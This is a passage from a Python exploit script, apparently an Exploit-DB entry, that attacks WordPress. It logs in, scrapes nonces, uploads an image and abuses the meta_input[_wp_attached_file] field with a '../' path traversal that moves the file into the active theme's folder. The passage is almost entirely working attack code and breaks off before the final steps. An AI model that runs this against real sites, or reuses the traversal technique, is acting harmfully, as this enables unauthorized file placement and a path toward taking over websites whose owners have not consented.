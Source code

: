 ```python title="49512.py"
        print("[-] Failed to login.")
        exit(0)

cookies = r.cookies

print("[+] Getting Wp Nonce ... ")

res = requests.get(url+'wp-admin/media-new.php',cookies=cookies)
wp_nonce_list = re.findall(r'name="_wpnonce" value="(\w+)"',res.text)

if len(wp_nonce_list) == 0 :
        print("[-] Failed to retrieve the _wpnonce \n")
        exit(0)
else :
        wp_nonce = wp_nonce_list[0]
        print("[+] Wp Nonce retrieved successfully ! _wpnonce : " + wp_nonce+"\n")

print("[+] Uploading the image ... ")

data = {
        'name': 'gd.jpg',
        'action': 'upload-attachment',
        '_wpnonce': wp_nonce
}

image = {'async-upload': (imagename, open(imagename, 'rb'))}
r_upload = requests.post(url+'wp-admin/async-upload.php', data=data, files=image, cookies=cookies)
if r_upload.status_code == 200:
        image_id = re.findall(r'{"id":(\d+),',r_upload.text)[0]
        _wp_nonce=re.findall(r'"update":"(\w+)"',r_upload.text)[0]
        print('[+] Image uploaded successfully ! Image ID :'+ image_id+"\n")
else :
        print("[-] Failed to receive a response for uploaded image ! try again . \n")
        exit(0)

print("[+] Changing the path ... ")


data = {
        '_wpnonce':_wp_nonce,
        'action':'editpost',
        'post_ID':image_id,
        'meta_input[_wp_attached_file]':date+imagename+'?/../../../../themes/'+wp_theme+'/rahali'
}

res = requests.post(url+'wp-admin/post.php',data=data, cookies=cookies)
if res.status_code == 200:
        print("[+] Path has been changed successfully. \n")
else :
        print("[-] Failed to change the path ! Make sure the theme is correcte .\n")
        exit(0)

print("[+] Getting Ajax nonce ... ")

data = {
        'action':'query-attachments',
        'post_id':0,
        'query[item]':43,
        'query[orderby]':'date',
        'query[order]':'DESC',
        'query[posts_per_page]':40,
        'query[paged]':1
}
```